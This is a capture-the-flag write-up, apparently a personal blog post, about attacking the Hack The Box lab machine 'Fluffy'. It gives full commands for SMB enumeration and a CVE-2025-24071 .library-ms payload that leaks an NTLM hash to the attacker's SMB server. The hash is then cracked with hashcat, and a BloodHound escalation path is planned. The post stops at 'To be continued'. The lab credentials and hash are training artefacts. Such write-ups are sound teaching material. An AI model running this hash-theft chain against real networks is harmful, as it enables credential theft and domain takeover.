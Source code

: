 ```yaml
---
layout: post
title: "Fluffy"
date: 2025-09-11 16:00:00 -0400
author: Hugo Beaulieu
categories: windows machine
tags: windows machine
---
```


We first start by adding the box hostname to the hosts file.

```bash
echo 10.129.9.229 fluffy.htb | sudo tee -a /etc/hosts
```

Once that's done, we do a TCP scan of the box using `nmap` to find out what kind of services are running on it.

```bash
nmap -sT --top-ports 1000 -A -T4 -v -oN custom_scan_fluffy.htb_20250911_150946.txt fluffy.htb
```

The scan reveal that the target OS is Windows Server 2019.

```bash
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
```

It also reveal 10 services running on the box.

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-12 03:10:29Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
```

Finally, we notice a clock skew between our host and the target machine.

```bash
Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time:
|   date: 2025-09-12T03:11:15
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

Before pushing our recon further, we first need to fix the clock skew.
We can do this by getting the DC time using `ldapsearch` with our starting account, `j.fleischman`.

```bash
ldapsearch -H ldap://10.129.9.229 -D "j.fleischman@fluffy.htb" -w "J0elTHEM4n1990!" -b "" -s base currentTime
```

Once we have the DC time, we can set the system time using the `date` command.

```bash
sudo date -s "2025-09-12 03:46:41 UTC"
```

Now that the clock skew is fixed, we can explore the services we found earlier with `nmap`.

Since port `445` is opened and used by `smb`, this mean there is probably some network shares to check out.
We can list them using `smbclient` with our starting account, `j.fleischman`.

```bash
smbclient -U "j.fleischman@fluffy.htb%J0elTHEM4n1990!" -L "\\10.129.9.229"
```

We find the expected default shares. But, one share stands out from the rest: `IT`.

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
IT              Disk
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

We can use `smbclient` again to connect to explore it further.

```bash
smbclient -U "j.fleischman@fluffy.htb%J0elTHEM4n1990!" "\\10.129.9.229\IT"
```

Once we are connected, we can list the content of the share using `ls`.
We can see 2 archives with corresponding directories, as if they were extracted.
There is also a PDF file that looks more interesting.

```bash
smb: \> ls
  .                                   D        0  Mon May 19 09:27:02 2025
  ..                                  D        0  Mon May 19 09:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 10:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 10:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 10:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 10:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 09:31:07 2025
```

We can download the files using the `get` command.

```bash
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (948.5 KiloBytes/sec) (average 948.5 KiloBytes/sec)
```

If we open the downloaded file, we can see that it contain an Upgrade Process from the Infrastructure Department to patch high-impact vulnerabilities, notably `CVE-2025-24996` and `CVE-2025-24071`.

![PDF Screenshot]({{ site.baseurl }}/assets/images/fluffy/upgrade-process.png)

After searching for a bit, we find this blog post by `0x6rss` explaining how we can abuse `NTLM Hash Leak via RAR/ZIP Extraction and .library-ms File`

```bash
https://cti.monster/blog/2025/03/18/CVE-2025-24071.html
```

We also find a `git` repository related to the blog post with a POC, were we find the an example `.library-ms` file payload that we can use.

```bash
https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main
```

With the payload in hand, all that is left to do is find a way to trigger the exploit.
We remember the 2 archives in the `IT` share with corresponding directories, as if they were extracted.
This means that if we upload an archive to the `IT` share with the malicious `.library-ms`, it might get extracted by a user, which would trigger the payload.

To do this, let's start off by creating a new `.library-ms` file containing our payload.
Don't forget to replace the IP !

```bash
echo '<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.41\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>' > exploit.library-ms
```

Once that's done, we need to zip the malicious `.library-ms`.

```bash
zip exploit.zip exploit.library-ms
```

Before uploading our payload, we need to start a `smb` server with `impacket` that will capture the NTLM Hash.

```bash
sudo impacket-smbserver -smb2support -debug shared /tmp
```

All that is left to do now is upload the archive containing the payload with `smbclient`.

```bash
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (5.5 kb/s) (average 5.5 kb/s)
```

We can see the exploit.zip archive being extracted into the exploit directory.

```bash
smb: \> ls
  .                                   D        0  Thu Sep 11 23:43:11 2025
  ..                                  D        0  Thu Sep 11 23:43:11 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 10:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 10:04:05 2025
  exploit                             D        0  Thu Sep 11 23:43:11 2025
  exploit.zip                         A      374  Thu Sep 11 23:42:43 2025
  KeePass-2.58                        D        0  Fri Apr 18 10:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 10:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 09:31:07 2025
```

We can see an incoming connection to our `smb` server from the user `p.agila`.
The captured NTLM Hash is also displayed.

```bash
09/11/2025 11:43:14 PM: INFO: Incoming connection (10.129.9.229,50657)
09/11/2025 11:43:14 PM: INFO: AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
09/11/2025 11:43:14 PM: INFO: User DC01\p.agila authenticated successfully
09/11/2025 11:43:14 PM: INFO: p.agila::FLUFFY:aaaaaaaaaaaaaaaa:2fc9cd8119df8a47c85ee47dbe2ef3a3:0101000000000000002d6683b023dc013d4c8d628ce842dd0000000001001000710057007600420054006d007600430003001000710057007600420054006d00760043000200100063004e004e0055007800660079004e000400100063004e004e0055007800660079004e0007000800002d6683b023dc0106000400020000000800300030000000000000000100000000200000b31b53eb431b23741fe65597989a5784b71140acc3cf749241116847aecce9420a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00340031000000000000000000
```

Now that we have the Hash, we want to make sure it's valid using `namethathash` and confirm the Hash type.

```bash
nth -t "p.agila::FLUFFY:aaaaaaaaaaaaaaaa:2fc9cd8119df8a47c85ee47dbe2ef3a3:0101000000000000002d6683b023dc013d4c8d628ce842dd0000000001001000710057007600420054006d007600430003001000710057007600420054006d00760043000200100063004e004e0055007800660079004e000400100063004e004e0055007800660079004e0007000800002d6683b023dc0106000400020000000800300030000000000000000100000000200000b31b53eb431b23741fe65597989a5784b71140acc3cf749241116847aecce9420a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00340031000000000000000000"
```

```bash
Most Likely
NetNTLMv2, HC: 5600 JtR: netntlmv2
```

Once we confirmed the Hash type to be `NetNTLMv2`, we can try to crack it using `hashcat` with `rockyou.txt`.

```bash
hashcat -m 5600 -a 0 hash.txt /home/bhugo97/pentest-toolbox/wordlists/rockyou.txt -w 4
```

Bingo ! The password is cracked.

```bash
P.AGILA::FLUFFY:aaaaaaaaaaaaaaaa:2fc9cd8119df8a47c85ee47dbe2ef3a3:0101000000000000002d6683b023dc013d4c8d628ce842dd0000000001001000710057007600420054006d007600430003001000710057007600420054006d00760043000200100063004e004e0055007800660079004e000400100063004e004e0055007800660079004e0007000800002d6683b023dc0106000400020000000800300030000000000000000100000000200000b31b53eb431b23741fe65597989a5784b71140acc3cf749241116847aecce9420a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00340031000000000000000000:prometheusx-303
```

Now that we have the `p.agila` user credentials, we should check if he has access to anything interesting.
To do this, we can use `bloodhound`.

But, before using `bloodhound` to visualize our high value targets, we first need to collect data using `bloodhound-python`.

```bash
bloodhound-python -d fluffy.htb -u p.agila -p prometheusx-303 -c All -ns 10.129.9.229
```

Once the data is collected, we can start `bloodhound` and upload the data we found with `bloodhound-python`.

```bash
bloodhound
```

Once the data is uploaded, we can check the `Reachable High Value Targets` for the user `p.agila`.

![BloodHound Screenshot]({{ site.baseurl }}/assets/images/fluffy/bloodhound-path.png)

We find out that:

- The user `p.agila` is a member of the group `Service Account Managers`.
- The `Service Account Managers` group has a `GenericAll` permission on the `Service Accounts` group.
- The `Service Accounts` group has a `GenericWrite` permission on the `WINRM_SVC` account.
- The `WINRM_SVC` account has a `CanPSRemote` permission on the domain controller.

This means we need to:

- Add p.agila to Service Accounts Group
- Reset WINRM_SVC Password
- Access Domain Controller via WinRM

To be continued !
